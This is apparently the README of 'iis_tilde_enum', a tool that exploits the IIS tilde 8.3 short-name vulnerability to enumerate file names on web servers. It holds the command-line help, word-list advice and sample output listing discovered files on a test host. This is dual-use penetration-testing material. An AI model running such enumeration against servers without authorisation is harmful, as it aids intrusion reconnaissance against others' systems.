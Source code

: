 iis_tilde_enum
==========

Takes a URL and then exploits the IIS tilde 8.3 enumeration vuln and tries to get you full file names.

You feed this script a URL and also a word list of potential file names. The script will look up the file
roots in your word list and then try them with appropriate extensions.

For word lists, the [fuzzdb](https://code.google.com/p/fuzzdb/) word lists are pretty good. We sometimes use the
https://code.google.com/p/fuzzdb/source/browse/trunk/discovery/PredictableRes/raft-small-words-lowercase.txt
(or large or medium) for this work.

This is not a directory enumerator (i.e., tries all words in a list against a web server). It will only find
directories that have names longer than 8 characters (since only then will they have 8.3 names and be recognized
by the vulnerability). You should still try to enumerate directories using a word list and
[DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project) or Burp Intruder or something.

Just as a note: on Windows computers you can view 8.3 names in the command prompt window by using the
`dir /x` command. One of the columns will be the 8.3 name (if there is one).

Always enjoy feedback and suggestions.


Help
====
<pre>$  ./tilde_enum.py -h
usage: tilde_enum.py [-h] [-d DIRWORDLIST] [-f] [-o OUT_FILE] [-p PROXY]
                     [-u URL] [-v VERBOSE_LEVEL] [-w WAIT]
                     [--resume RESUME_STRING] [--dir-only]

Exploits and expands the file names found from the tilde enumeration vuln

optional arguments:
  -h, --help            show this help message and exit
  -d DIRWORDLIST        an optional wordlist for directory name content
  -f                    force testing of the server even if the headers do not
                        report it as an IIS system
  -o OUT_FILE           Filename to store output
  -p PROXY              Use a proxy host:port
  -u URL                URL to scan
  -v VERBOSE_LEVEL      verbose level of output (0~2)
  -w WAIT               time in seconds to wait between requests
  --resume RESUME_STRING
                        Resume from a given name (length <= 6)
  --dir-only            Search for directories only
</pre>


Sample Output
======
<pre>
$  ./tilde_enum.py -u http://iis -v 2 -w 0.1 -o output.txt
[-]  Verbose Level=2 ....brace yourself for additional information.
[-]  Testing with dummy file request http://iis/subdir/SQnxKKN5qE2MS.htm
[-]    URLNotThere -> HTTP Code: 404, Response Length: 1379
[-]  Testing with user-submitted http://iis/subdir/
[-]    URLUser -> HTTP Code: 200, Response Length: 7608
[+]  HTTP Response Codes: {'user_length': 7608, 'not_there_length': 1379, 'user_code': 200, 'not_there_code': 404}
[-]  User-supplied delay detected. Waiting 0.1 seconds between HTTP requests.
[+]  The server is reporting that it is IIS (Microsoft-IIS/6.0).
[+]  The server is vulnerable to the tilde enumeration vulnerability (IIS/5|6.x)..
[+]  Found file:  cocee6~1.asp
[+]  Found file:  codeec~1.asp
[+]  Found file:  cod64a~1.asp
[+]  Found file:  cod64e~1.asp
[+]  Found file:  cod642~1.asp
[+]  Found file:  coe2c8~1.asp
[+]  Found file:  coe6b4~1.asp
[+]  counterEnum: http://iis/subdir/conten counter end with ~4.
[+]  Found file:  conten~1.asp
[+]  Found file:  conten~2.asp
[+]  Found file:  conten~3.asp
[+]  Found file:  conten~4.asp
[+]  Found file:  co8995~1.asp
[+]  Found file:  co9999~1.asp
[+]  counterEnum: http://iis/subdir/flash_ counter end with ~3.
[+]  Found file:  flash_~1.htm
[+]  Found file:  flash_~2.htm
[+]  Found file:  flash_~3.htm
[+]  Found file:  index~1.asp
[+]  Found file:  index~1.htm
[+]  Found file:  login_~1.asp
[+]  Found file:  menu-s~1.asp
[+]  Found file:  sso_ch~1.asp
[-]  Finished doing the 8.3 enumeration for /subdir/.

---------- FINAL OUTPUT ------------------------------
http://iis/subdir/co8995~1.asp
http://iis/subdir/co9999~1.asp
http://iis/subdir/cocee6~1.asp
http://iis/subdir/cod642~1.asp
http://iis/subdir/cod64a~1.asp
http://iis/subdir/cod64e~1.asp
http://iis/subdir/codeec~1.asp
http://iis/subdir/coe2c8~1.asp
http://iis/subdir/coe6b4~1.asp
http://iis/subdir/conten~1.asp
http://iis/subdir/conten~2.asp
http://iis/subdir/conten~3.asp
http://iis/subdir/conten~4.asp
http://iis/subdir/flash_~1.htm
http://iis/subdir/flash_~2.htm
http://iis/subdir/flash_~3.htm
http://iis/subdir/index~1.asp
http://iis/subdir/index~1.htm
http://iis/subdir/login_~1.asp
http://iis/subdir/menu-s~1.asp
http://iis/subdir/sso_ch~1.asp
---------- OUTPUT COMPLETE ---------------------------
</pre>
